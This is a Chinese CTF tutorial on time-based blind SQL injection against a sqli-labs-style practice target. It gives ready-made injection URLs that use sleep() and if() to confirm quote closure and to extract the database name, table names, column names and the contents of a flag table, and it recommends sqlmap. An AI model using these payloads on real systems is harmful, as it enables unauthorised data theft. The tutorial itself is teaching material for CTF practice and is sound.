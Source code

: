 #sql注入之sleep注入

##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、原理

sleep注入又称基于时间的盲注。当网站页面上没有任何显示位，也没有输出sql语句执行错误信息。此时我们可以尝试采用sleep注入。

sleep注入需要注入的一点是，正常sql注入和错误的sql语句返回的页面都一样。但是加入了sleep(5)后页面的返回速度明显慢了五秒。

##三、靶机地址

>http://39.98.88.18:8080/sql/Less-9/index.php?id=1

##四、函数介绍

1.sleep()函数

sleep()函数可以让函数停留n秒时间，然后返回０。如果程序被打断,则返回1。

在一般情况下，sleep()函数的返回值恒为０，因此我们便可以利用sleep(n)=0的永真性来执行sql注入。

![](img/2.8/1.png)

执行上述语句的时候，会有一个时间的停顿。希望大家自己尝试一下。

2.if函数

if函数的表达式如下：

>if(表达式1,表达式2,表达式3)

如果表达式１是true，则返回表达式２；否则返回表达式３。

##五、实战

因为此关注入成功的判断都是延迟五秒返回界面。故在此不在截图。

1.判断注入类型以及闭合方式

我们按照以前的方法在后面添加单引号，and 1=1等因此尝试，发现页面无变化。因此我们尝试如下链接

>http://39.98.88.18:8080/sql/Less-9/?id=1' and if(1=0,1, sleep(10)) --+

此时发现过了将近10s后页面正常返回。单引号闭合成功。

2.猜数据库

首先我们来判断一下数据库的长度

>http://39.98.88.18:8080/sql/Less-9/?id=1' and if(length(database())=8,sleep(10),1)--+

我们可以发现，当length(database())为其他致时，页面会立刻返回。因为此时length(database())值为假，if函数返回1。所以页面会可以返回。

接下来我们继续猜测数据库名称

>http://39.98.88.18:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),1,1))=115,sleep(10),1)--+

此时，网站延时成功，根据我们上节课中给出的ascii码表。我们可以查出115对应的单词为s。

由于sleep注入sql语句错误时，不会有错误页面。即我们也无法使用二分法进行判断。因此我们需要逐位逐位的去常识。所以手工测试比较繁琐。

subsrt函数第二位表示截取位数，我们可以通过修改它的值，来判断后面的位置链接如下：

>http://39.98.88.18:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),2,1))=100,sleep(10),1)--+

然后依次判断其他位数，再次不在详细叙述。

3.判断表名

首先我们来判断一下seucrity各个数据表的长度。

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=5,sleep(10),1)--+

然后依次判断表名称中的每个字符

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117,sleep(10),1)--+

通过上面的判断我们可以的得出存在flag这个表。

４.判段flag表中的列。

判断flag表中列的长度

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1))=４,sleep(10),1)--+

可以判断长度为４位，然后判断列名

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1),1,1))=117,sleep(10),1)--+

然后通过substr和limit参数来修改剩余各位。

5.判断内容

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select flag from security.flag limit 0,1))=4,sleep(10),1)--+

##六、sqlmap

因sql布尔型注入需要对猜解的字符进行逐个尝试，过程相对繁琐。故本人还是推荐使用sqlmap.

关于sqlmap使用，本节课程跟上节课程相同。故在此不做叙述。

##七、赛题实战

如有问题，可以随时在知识星球内＠江江河畔砍柴人

赛题地址: https://t.zsxq.com/6AUzBaY

##八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.8/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.8/0.jpg)
